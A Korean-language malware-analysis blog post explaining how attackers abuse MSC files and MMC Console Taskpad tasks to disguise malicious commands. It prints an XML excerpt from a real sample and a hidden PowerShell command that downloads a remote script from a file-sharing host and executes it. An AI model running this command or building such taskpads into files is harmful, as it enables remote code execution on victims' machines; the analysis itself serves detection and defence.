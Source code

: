 ```yaml
---
title: '📑 "MSC", Malware Analysis'
date: 2024-12-09 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, msc]
render_with_liquid: false
---
```




MSC(Microsoft System Center) 파일은 시스템 관리 및 모니터링에 사용되는 XML 형식의 파일입니다. Microsoft Management Console(mmc.exe)를 사용해 열 수 있으며, 다양한 관리 도구의 저장 및 실행에 사용됩니다. 공격자는 해당 파일이 시스템과 관련된 파일에 사용되는 형식임을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다. 



## <mark>1. MSC 파일</mark>

MSC 파일은 일반적으로 시스템 관리 및 모니터링에 사용되는 파일입니다. 공격자는 해당 사실을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/image-20241209220102068.png" alt="image-20241209220102068" style="zoom: 80%;" />

파일을 오픈하게 되면, Microsoft Management Console(mmc.exe)에 의해 실행됩니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113120127-1733738421240-1.png" alt="IMG-msc 분석-20240912113120127" style="zoom: 80%;" />

XML 형식을 사용하기 때문에 텍스트 에디터를 사용하여 파일 내부를 확인할 수 있습니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113201295-1733738425481-3.png" alt="IMG-msc 분석-20240912113201295" style="zoom:67%;" />



## <mark>2. MMC Console Taskpad</mark>

MSC 파일은 MMC Console Taskpad 기능을 사용하여 내부에 명령어를 삽입할 수 있습니다. 공격자는 해당 기능을 사용하여, 사용자가 특정 버튼을 클릭해 악성 스크립트를 실행하도록 유도합니다.

> [!NOTE]   
> 🔗 [MMC Console Taskpad](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/mmc-console-taskpad)

![IMG-msc 분석-20240912115210945](../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912115210945-1733738436425-5.png)

## <mark>3. 악성 MSC 샘플 분석</mark>

### ▪ 파일 내부 확인

MSC 파일은 XML 형식을 사용하기 때문에 텍스트 에디터를 사용해 내부를 확인할 수 있습니다. ConsoleTaskPads 기능이 존재하는지, 존재한다면 어떤 명령어를 사용하고 있는지 확인합니다.

![IMG-msc 분석-20240912113555178](../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113555178-1733738451950-7.png)

샘플의 경우, ConsoleTaskpads에 Powershell 명령어가 포함되어 있는 것이 확인되었습니다.

```xml
  <ConsoleTaskpads>
    <ConsoleTaskpad ListSize="Medium" IsNodeSpecific="true" ReplacesDefaultView="true" NoResults="true" DescriptionsAsText="true" NodeType="{C96401CE-0E17-11D3-885B-00C04F72C717}" ID="{656F3A6A-1A63-4FC4-9C9B-4B75AF6DF3A3}">
      <String Name="Name" ID="4"/>
      <String Name="Description" Value=""/>
      <String Name="Tooltip" Value=""/>
      <Tasks>
        <Task Type="CommandLine" Command="powershell.exe">
          <String Name="Name" ID="5"/>
          <String Name="Description" ID="11"/>
          <Symbol>
            <Image Name="Small" BinaryRefIndex="6"/>
            <Image Name="Large" BinaryRefIndex="7"/>
          </Symbol>
          <CommandLine Directory="" WindowState="Minimized" Params="-WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)"/>
        </Task>
      </Tasks>
      <BookMark Name="TargetNode" NodeID="1"/>
    </ConsoleTaskpad>
  </ConsoleTaskpads>
```

### ▪ 명령어 분석

Powershell 스크립트 파일로 추정되는 jIML.txt 파일을 다운로드 받아 파일 내부에 있는 코드를 실행하는 명령어가 포함되어 있는 것이 확인되었습니다.

```powershell
powershell.exe -WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)
```

